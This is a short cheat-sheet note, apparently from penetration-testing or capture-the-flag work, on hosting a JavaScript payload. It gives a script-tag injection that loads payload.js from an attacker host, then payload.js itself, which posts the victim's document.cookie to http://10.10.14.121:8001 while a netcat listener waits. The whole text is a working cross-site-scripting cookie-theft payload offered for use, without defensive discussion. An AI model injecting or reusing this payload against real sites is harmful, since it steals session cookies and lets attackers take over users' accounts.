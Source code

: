 # host javascript

Inject javascript via script tag:

```
<script src=http://IP:PORT/payload.js></script>
```

## payload.js

Start netcat lister on Port 8001:

```
const xhr = new XMLHttpRequest();
const url='http://10.10.14.121:8001';
xhr.open("POST", url,true);
xhr.send(document.cookie);
```
